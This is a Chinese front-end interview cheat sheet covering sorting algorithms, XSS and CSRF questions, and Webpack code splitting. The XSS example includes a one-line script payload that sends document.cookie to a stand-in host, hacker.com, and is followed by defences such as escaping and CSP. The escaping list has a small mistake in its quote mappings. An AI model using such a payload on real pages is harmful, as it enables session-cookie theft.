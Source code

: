 ##  算法

1. 排序算法（背诵冒泡排序、选择排序、计数排序、快速排序、插入排序、归并排序）
2. 二分查找法
3. 翻转二叉树

把上面三个背一下，算法题必过。

安全押题

1. 什么是 XSS 攻击？如何预防？

   - 举例

     ```
     div.innerHTML = userComment  // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
     // 恶意就被执行了，这就是 XSS

     ```

   - 预防

     1. 不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
     2. 如果你一样要用 innerHTML，字符过滤
        - 把 < 替换成 `&lt;`
        - 把 > 替换成 `&gt;`
        - 把 & 替换成 `&amp;`
        - 把 ’ 替换成 `&#39;`
        - 把 ’ 替换成 `&quot;`
        - 代码 div.innerHTML = userComment.replace(/>/g, ‘`&lt;`’).replace…
     3. 使用 CSP Content Security Policy

2. 什么是 CSRF 攻击？如何预防？

   - 过程
     1. 用户在 [qq.com](http://qq.com/) 登录
     2. 用户切换到 [hacker.com](http://hacker.com/)（恶意网站）
     3. [hacker.com](http://hacker.com/) 发送一个 [qq.com/add_friend](http://qq.com/add_friend) 请求，让当前用户添加 hacker 为好友。
     4. 用户在不知不觉中添加 hacker 为好友。
     5. 用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
   - 避免
     1. 检查 referer，[qq.com](http://qq.com/) 可以拒绝来自 [hacker.com](http://hacker.com/) 的请求
     2. csrf_token 来解决

## Webpack 

1. 转译出的文件过大怎么办？
   - 使用 code split
   - 写法 import(‘xxx’).then(xxx=>{console.log(xxx)})
   - xxx 模块就是按需加载的
2. 转译速度慢什么办？
   - 方方不会。
3. 写过 webpack loader 吗？
   - [http://www.alloyteam.com/2016/01/webpack-loader-1/4](http://www.alloyteam.com/2016/01/webpack-loader-1/)
